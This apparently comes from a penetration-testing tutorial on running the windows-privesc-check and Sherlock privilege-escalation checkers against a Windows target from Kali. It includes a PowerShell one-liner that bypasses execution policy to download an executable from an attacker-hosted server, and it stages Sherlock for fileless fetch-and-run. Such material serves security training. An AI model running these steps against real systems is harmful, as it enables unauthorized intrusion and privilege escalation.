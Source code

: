 ##### Running Windows Privesc Check (windows-privesc-check)

The Windows Privesc Check is a very powerful tool for finding common misconfigurations in a Windows system that could lead to privledge escalation. It has not been updated for a while, but it is still as effective today as it was 5 years ago. The downside of this script is that it was written in Python and if the target system does not have Python installed, you will need to use an executable version that has a Python interpreter built in. Having to include Python in the package makes the executable version is pretty large, coming in at a whopping 7.14 MB!!

- First we will need to clone the latest version to our environment:

  ```bash
  root@kali:~/tools# git clone https://github.com/pentestmonkey/windows-privesc-check
  Cloning into 'windows-privesc-check'...
  remote: Enumerating objects: 1232, done.
  remote: Total 1232 (delta 0), reused 0 (delta 0), pack-reused 1232
  Receiving objects: 100% (1232/1232), 34.79 MiB | 4.61 MiB/s, done.
  Resolving deltas: 100% (897/897), done.
  ```

- Next we will need to setup a simple python HTTP webserver in Kali to host the file which the remote Windows box can download it from:

  ```bash
  root@kali:~/tools# cd windows-privesc-check/
  root@kali:~/tools/windows-privesc-check# python -m SimpleHTTPServer 80
  Serving HTTP on 0.0.0.0 port 80 ...
  ```

- Now we will need to transfer the file to our remote windows box:
  `@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/windows-privesc-check2.exe\", \"C:\\Users\\Public\\Downloads\\windows-privesc-check2.exe\");`

- And now we run the executeable on the remote machine. I like run with all the audit enabled like so:

  ```CMD
  C:\Users\Admin>cd ..
  C:\Users>cd Public
  C:\Users\Public>cd Downloads
  C:\Users\Public\Downloads>windows-privesc-check2.exe --audit -a -o report
  windows-privesc-check v2.0svn198 (http://pentestmonkey.net/windows-privesc-check)...
  ```

- The windows-privesc-check will create a detailed HTML report and text based report for your review.

##### Running Sherlock

Sherlock is a powershell library with a number of privledge escalation checkers built in. We can stage and run sherlock on a remote http server so the file never needs to hit the remote server's HDD.

  ```bash
  root@kali:~test# git clone https://github.com/rasta-mouse/Sherlock.git
  Cloning into 'Sherlock'...
  remote: Enumerating objects: 3, done.
  remote: Counting objects: 100% (3/3), done.
  remote: Compressing objects: 100% (3/3), done.
  remote: Total 75 (delta 0), reused 2 (delta 0), pack-reused 72
  Unpacking objects: 100% (75/75), done.
  root@kali:~test# cd Sherlock/
  root@kali:~test/Sherlock# ls
  LICENSE  README.md  Sherlock.ps1
  root@kali:~test/Sherlock# echo Find-AllVulns >> Sherlock.ps1
  root@kali:~test/Sherlock# python -m SimpleHTTPServer 80
  Serving HTTP on 0.0.0.0 port 80 ...
  ```
